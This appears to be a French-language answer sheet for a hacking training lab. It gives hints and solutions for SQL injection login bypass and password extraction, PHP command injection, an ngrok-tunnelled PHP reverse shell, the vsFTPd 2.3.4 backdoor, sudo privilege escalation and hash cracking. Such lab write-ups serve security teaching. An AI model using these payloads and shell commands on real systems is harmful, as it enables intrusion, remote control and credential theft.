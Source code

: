# Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre `docker compose exec -it machine1 bash`
user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :

    Mettre en user : (n'importe quoi)

    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :

    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

nc -l -p 12345 

ngrok tcp 12345

php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# ftp anonymous

* Solution : ftp 10.1.0.188

    Mettre 'anonymous' en nom

# vstfp:2.3.4 backdoor

* Solution :

    ftp 10.1.0.188

    Connected to 10.1.0.188.
    220 (vsFTPd 2.3.4)
    Name (10.1.0.188:root): ANYTHINGHERE:)
    331 Please specify the password.
    Password:
    ^C
    421 Service not available, remote server has closed connection


    nc -vn 10.1.0.188 6200

    Connection to 10.1.0.188 6200 port \[tcp/*\] succeeded!


    ls ~

    flag.txt


    cat ~/flag.txt


# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~

pense_bete.txt

cat ~/pense_bete.txt

* Solution :

    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt

    (hashcat -m0 --show flag)

# Zip Bruteforce:

zip2john flag.zip > hash.txt
john --wordlist=rockyou.txt hash.txt 